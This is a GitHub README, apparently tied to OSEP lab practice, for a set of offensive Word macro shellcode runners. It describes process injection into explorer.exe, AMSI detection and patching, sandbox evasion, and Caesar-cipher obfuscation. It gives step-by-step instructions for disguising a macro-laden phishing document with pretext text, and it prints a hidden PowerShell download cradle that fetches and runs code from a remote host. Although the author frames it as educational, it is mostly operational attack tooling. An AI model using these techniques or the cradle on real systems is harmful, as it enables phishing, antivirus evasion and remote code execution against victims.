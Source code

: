 # Macro Shellcode Runners

## ToC

| Application | Notes |
| ----------- | ----- |
| `WordMacroInject.vbs` | Injects shellcode into `explorer.exe` (64-bit Word) or a random 32-bit process, and runs it | 
| `WordMacroRunner.vbs` | Loads shellcode into `WINWORD.exe` and runs it |
| `WordMacroRunnerBasic.vbs` | Basic shellcode runner. `WordMacroRunner.vbs` without AMSI bypass or IP check |
| `WordPsCradle.vbs` | Macro with Caesar Cipher encoding that calls a PS download cradle |
| `vbObfuscate.ps1` | PS script to generate Caesar Cipher code for `WordPsCradle.vbs` |

Both `WordMacroInject.vbs` and `WordMacroRunner.vbs` have:
- Ability to run when executed from both 64-bit & 32-bit Word
- AMSI Check & Bypass
- Simple time-based AV Sandbox detection

### Setup/formatting information:
1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.

## `WordMacroInject.vbs`
This macro performs process injection from both 32-bit and 64-bit Word processes. In 64-bit processes, it injects into `explorer.exe`, but this is easily configurable with a single variable.

In 32-bit processes, it enumerates running processes and attempts to find another 32-bit process to inject into. These are pretty sparse, but often times processes like `GoogleUpdate.exe`, `OneDrive.exe` are running as 32-bit (at least in the OSEP labs). If it can't find another 32-bit process, it injects into itself (`WINWORD.exe`).

Uses a `sleep` call to determine if being simulated by AV. The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

### Notes

If Word (and thus our Macro) is ran in 32-bit mode, we have to find another 32-bit process to inject into because 32 bit processes cannot easily inject into 64 bit ones. The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossible.

Starting in Word 2019 the program is 64 bit by default. This means Word 2019,O365,2021 are all good candidates for Injection because Orgs/individuals would have to go out of their way to have downloaded the 32 bit one.

There are some more advanced techniques out there that might be able to facilitate 32&rarr;64 bit injection (*Heaven's gate*) but no idea if they could be implemented in VBA.

As always, there are issues concerning stability, and longevity of the process to maintain a reverse shell when we inject into random processes. In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.

## `WordMacroRunner.vbs`
This is a baseline runner that loads the shellcode into `WINWORD.exe` and executes it. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture. 

Uses a `sleep` call to determine if being simulated by AV. Also has functionality to make sure the target is in the `192.168.0.0/16` IP range, except you have to uncomment it.

The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

## `WordMacroRunnerBasic.vbs`
This is just a basic version of `WordMacroRunner.vbs` without AMSI Bypass or IP Check.

## `WordPsCradle.vbs`
Macro with Caesar Cipher encoding that calls a PowerShell download cradle.  Use with `vbObfuscate.ps1` to generate and replace obfuscated text in `WordPsCradle.vbs`. This uses WMI dechaining, so **still use x64 shellcode even if you are targeting x86 word**!

## `vbObfuscate.ps1`
Powershell script to generate Caesar Cipher code for `WordPsCradle.vbs`.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 

**This is where you would edit the PS Cradle you would like to run**. The default is:
```ps1
powershell -exec bypass -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://192.168.49.66/attach.txt')
```
